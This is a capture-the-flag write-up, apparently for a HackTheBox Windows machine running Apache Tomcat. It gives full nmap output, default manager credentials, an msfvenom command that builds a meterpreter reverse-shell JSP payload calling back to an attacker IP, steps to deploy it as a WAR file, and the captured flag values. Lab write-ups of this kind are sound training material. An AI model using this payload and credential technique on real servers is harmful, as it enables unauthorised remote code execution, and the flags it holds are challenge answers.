


# README

## nmap

```shell
sudo nmap -T4 -A -v 10.10.10.95
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 00:13 CST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 00:13
Completed NSE at 00:13, 0.00s elapsed
Initiating NSE at 00:13
Completed NSE at 00:13, 0.00s elapsed
Initiating NSE at 00:13
Completed NSE at 00:13, 0.00s elapsed
Initiating Ping Scan at 00:13
Scanning 10.10.10.95 [4 ports]
Completed Ping Scan at 00:13, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:13
Completed Parallel DNS resolution of 1 host. at 00:13, 0.04s elapsed
Initiating SYN Stealth Scan at 00:13
Scanning 10.10.10.95 [1000 ports]
Discovered open port 8080/tcp on 10.10.10.95
Completed SYN Stealth Scan at 00:13, 19.28s elapsed (1000 total ports)
Initiating Service scan at 00:13
Scanning 1 service on 10.10.10.95
Completed Service scan at 00:13, 6.55s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 10.10.10.95
Retrying OS detection (try #2) against 10.10.10.95
Initiating Traceroute at 00:13
Completed Traceroute at 00:13, 0.31s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 00:13
Completed Parallel DNS resolution of 2 hosts. at 00:13, 5.61s elapsed
NSE: Script scanning 10.10.10.95.
Initiating NSE at 00:13
Completed NSE at 00:14, 9.05s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 1.04s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Nmap scan report for 10.10.10.95
Host is up (0.27s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.001 days (since Thu Sep 14 00:12:03 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Randomized

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   289.71 ms 10.10.14.1
2   290.41 ms 10.10.10.95

NSE: Script Post-scanning.
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Read data files from: /opt/homebrew/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.28 seconds
           Raw packets sent: 2105 (96.550KB) | Rcvd: 53 (9.554KB)

```


## tomcat



后台密码为tomcat/s3cret

然后就是tomcat后台上传war包rce：

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=39502 -f jsp > '/Users/feng/many-ctf/Ma!/msfshell.jsp'
jar -cvf msfshell.war msfshell.jsp
```

上传：



访问`/msfshell/shell.jsp`即可：

```shell
c:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
c:\Users\Administrator\Desktop\flags>
```

